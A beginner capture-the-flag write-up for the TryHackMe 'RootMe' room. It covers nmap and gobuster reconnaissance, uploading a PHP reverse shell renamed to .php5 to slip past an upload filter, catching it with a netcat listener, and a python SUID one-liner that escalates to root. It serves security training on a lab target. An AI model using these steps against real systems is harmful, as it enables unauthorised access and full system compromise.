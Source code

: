 ![Screenshot 2023-08-17 195731.png](RootMe%20017d0cf7d078432089cc26c90876ba89/default_tryhackme.png)

![Screenshot 2023-08-17 195731.png](RootMe%20017d0cf7d078432089cc26c90876ba89/11d59cb34397e986062eb515f4d32421.png)

# RootMe

A ctf for beginners, can you root me?

The skills to be tested and needed to solve this room are: **nmap**, **GoBuster**, **privilege escalation**, **SUID**, **find**, **webshell**, and **gtfobins**.

This room was released today, 9/9/2020. Shout-out to the room creator, **@reddyyZ**. You can access the room at [https://tryhackme.com/room/rootme](https://tryhackme.com/room/rootme)

## Nmap Scan

```bash
nmap -A -Pn -T4 -oN nmap_result.txt 10.10.172.154
```

```bash
# Nmap 7.92 scan initiated Thu Aug 17 09:36:48 2023 as: nmap -A -Pn -T4 -oN nmap_result.txt 10.10.172.154
Nmap scan report for 10.10.172.154
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/17%OT=22%CT=1%CU=44432%PV=Y%DS=5%DC=T%G=Y%TM=64DE22B
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST1
OS:1NW6%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT       ADDRESS
1   282.54 ms 10.17.0.1
2   ... 4
5   406.59 ms 10.10.172.154

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 17 09:37:52 2023 -- 1 IP address (1 host up) scanned in 64.87 seconds
```

Run **gobuster** to look for hidden directories and files on the web server.

```bash
gobuster dir -u http://10.10.172.154/ -w /home/kali/Downloads/SecLists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster_output.txt -t 20
```

![Screenshot 2023-08-17 195731.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-17_195731.png)

Visit the hidden directory through your preferred browser.

Type **<Target_IP>*/panel/***

![Screenshot 2023-08-18 030745.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_030745.png)

Looks like we can use this to upload a **web shell** and get a reverse shell. Download the php reverse shell script [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Make sure to change the values in the script with your own IP address and a port of your choice to get a reverse shell

![Screenshot 2023-08-18 030907.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_030907.png)

Here are the values you need to change in the **php-reverse-shell** script

Upon uploading the **php-reverse-shell.php** file, we get a “PHP not permitted” I supposed message

Then, I realized maybe it is just filtering the .php extension, so I renamed the script to a .php5 extension. And that uploaded successfully too

![Screenshot 2023-08-18 031312.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_031312.png)

Successfully uploaded my php reverse-shell script

Start a netcat listener from your attack machine. Type ***nc -nlvp 9999***

Run the php reverse-shell script by using **curl**. 

Type ***curl [http://10.10.177.208/uploads/reverse-shell.php5](http://10.10.177.208/uploads/reverse-shell.php5)***

Go back to check on your listener if you have a connection

![Screenshot 2023-08-18 031418.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_031418.png)

**Netcat Shell Stabilisation**

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

Search for the user.txt using **find**. Type **find / -name user.txt -type f 2>/dev/null**

- ***type f*** – you are telling find to look exclusively for files
- ***name user.txt*** – instructing the find command to search for a file with the name “user.txt”
- ***2> /dev/null*** – so error messages do not show up as part of the search result

user.txt file is found at location **/var/www/user.txt**

Retrieve the content of user.txt. Type ***cat /var/www/user.txt***

Search for files with SUID permission to escalate our privilege using **find**. Type ***find / type -f -user root -perm -u=s 2> /dev/null***

![Screenshot 2023-08-18 032046.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_032046.png)

Check **gtfobins** on how to exploit the suid above. Access gtfobins [here](https://gtfobins.github.io/). Then search for the specific binary you found above and study how you can exploit through SUID.

![Screenshot 2023-08-18 032222.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_032222.png)

Escalate our privilege to root user. Type ***python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’***

![Screenshot 2023-08-18 032341.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_032341.png)

Search for root.txt. Type ***find / -type f -name root.txt***

found root.txt file location **/root/root.txt**

Retrieve the content of root.txt. Type ***cat /root/root.txt***

![Screenshot 2023-08-18 032528.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_032528.png)

found the root flag!